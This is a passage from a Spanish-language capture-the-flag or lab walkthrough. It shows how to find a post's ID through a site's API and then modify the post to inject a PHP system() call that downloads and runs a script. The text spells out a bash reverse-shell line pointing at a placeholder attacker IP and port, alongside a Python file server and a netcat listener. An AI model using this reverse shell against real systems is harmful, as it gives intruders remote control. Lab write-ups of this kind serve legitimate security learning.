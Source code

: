 
![[Pasted image 20240416165343.png]]


  
Ahora lo que tendremos que hacer es averiguar cuál es el ID del post que está publicado en la página. Para esto, de igual manera, podemos usar `curl`. Simplemente realizamos una petición GET a la ruta de la API de posts de la siguiente manera:

![[Pasted image 20240416202854.png]]


Si ejecutamos el comando, nos responderá con un listado de todos los posts que están en la página. En este caso, podemos ver que solo existe un post, el cual tiene como id el numero uno.


![[Pasted image 20240416203306.png]]


Sabiendo esto, ahora solo faltaría modificar el post para colocar un código PHP que ejecute comandos. En este caso, vamos a hacer una reverse shell, pero primero tenemos que crear un archivo .sh con el siguiente código. En este archivo, indicaremos la dirección IP de la máquina atacante y el puerto donde estaremos escuchando.


```bash
bash -i >& /dev/tcp/ip/puerto 0>&1
```

  
Luego, desde el directorio donde hemos creado el script, levantamos un servidor con la ayuda de Python.


![[Pasted image 20240416211152.png]]



Finalmente, con Netcat abrimos el puerto especificado en el script, donde estaremos escuchando.


![[Pasted image 20240416211018.png]]

Entonces, ahora podemos hacer la consulta a la ruta de posts indicando la ID del post a modificar, utilizando el método PATCH. También debemos incluir el token generado anteriormente como cookie y enviar como datos la función `system` junto con el comando a ejecutar. En este caso,  vamos a descargar en la máquina víctima el script de Bash y despues ejecutarlo. Todo esto podemos hacerlo utilizando `curl` de la siguiente manera:


![[Pasted image 20240416212557.png]]

Entonces, si lo ejecutamos, podemos observar que se establece una conexión a nuestro Netcat, lo que resulta en una reverse shell.

![[Pasted image 20240416215220.png]]


Enumerando el sistema podemos ver que existe el usuario achilles


